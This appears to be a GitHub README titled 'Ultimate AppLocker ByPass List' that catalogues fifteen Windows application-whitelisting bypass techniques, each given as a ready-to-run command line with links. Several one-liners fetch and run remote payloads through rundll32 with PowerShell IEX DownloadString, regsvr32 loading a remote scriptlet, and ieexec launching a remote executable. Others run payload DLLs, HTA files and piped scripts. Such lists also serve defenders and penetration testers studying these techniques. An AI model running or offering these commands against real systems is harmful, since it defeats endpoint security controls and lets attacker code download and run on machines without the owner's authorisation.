 # Ultimate AppLocker ByPass List
The goal of this repository is to document the most common techniques to bypass AppLocker. 
These bypass techniques are based on the "Create Default Rules" in AppLocker.
Please contribute and do point out errors or resources I have forgotten.


1. **Rundll32.exe**

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"

rundll32 shell32.dll,Control_RunDLL payload.dll

Links:
https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7



2. **Regsvr32.exe**

regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll

Links:
https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302



3. **Msbuild.exe**

msbuild.exe pshell.xml

Links:
https://gist.github.com/subTee/6b236083da2fd6ddff216e434f257614
http://subt0x10.blogspot.no/2017/04/bypassing-application-whitelisting.html
https://github.com/Cn33liz/MSBuildShell
https://github.com/Cn33liz/MS17-012
https://pentestlab.blog/2017/05/29/applocker-bypass-msbuild/
https://www.youtube.com/watch?v=aSDEAPXaz28



4. **Regsvcs.exe**

regsvcs.exe /U regsvcs.dll
regsvcs.exe regsvcs.dll

Links:
https://pentestlab.blog/2017/05/19/applocker-bypass-regasm-and-regsvcs/
https://gist.githubusercontent.com/subTee/fb09ef511e592e6f7993/raw/e9b28e7955a5646672267a61e9685fc5a4ab5f2a/regsvcs.cs



5. **Regasm.exe**

regasm.exe /U regsvcs.dll
regasm.exe regsvcs.dll

Links:
https://pentestlab.blog/2017/05/19/applocker-bypass-regasm-and-regsvcs/
https://gist.githubusercontent.com/subTee/fb09ef511e592e6f7993/raw/e9b28e7955a5646672267a61e9685fc5a4ab5f2a/regsvcs.cs



6. **Bginfo.exe**

bginfo.exe bginfo.bgi /popup /nolicprompt

Links:
https://msitpros.com/?p=3831
https://pentestlab.blog/2017/06/05/applocker-bypass-bginfo/
https://msitpros.com/?p=3860



7. **InstallUtil.exe**

InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll

Links:
https://github.com/subTee/AllTheThings
https://pentestlab.blog/2017/05/08/applocker-bypass-installutil/
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_12



8. **MSDT.exe**

Open .diagcab package

Links:
https://cybersyndicates.com/2015/10/a-no-bull-guide-to-malicious-windows-trouble-shooting-packs-and-application-whitelist-bypass/



9. **mshta.exe**

mshta.exe evilfile.hta

Links:
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4



10. **Execute .Bat**

cmd.exe /k < script.txt

Links:
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_3



11. **Execute .PS1**

Get-Content script.txt | iex

Links:
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_3



12. **Execute .VBS**

cscript.exe //E:vbscript script.txt

Links:
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_3



13. **PresentationHost.exe**

Missing Example

Links:
https://raw.githubusercontent.com/subTee/ShmooCon-2015/master/ShmooCon-2015-Simple-WLEvasion.pdf



14. **dfsvc.exe**

Missing Example

Links:
https://raw.githubusercontent.com/subTee/ShmooCon-2015/master/ShmooCon-2015-Simple-WLEvasion.pdf



15. **IEExec.exe**

ieexec.exe http://x.x.x.x:8080/bypass.exe

Links:
https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/
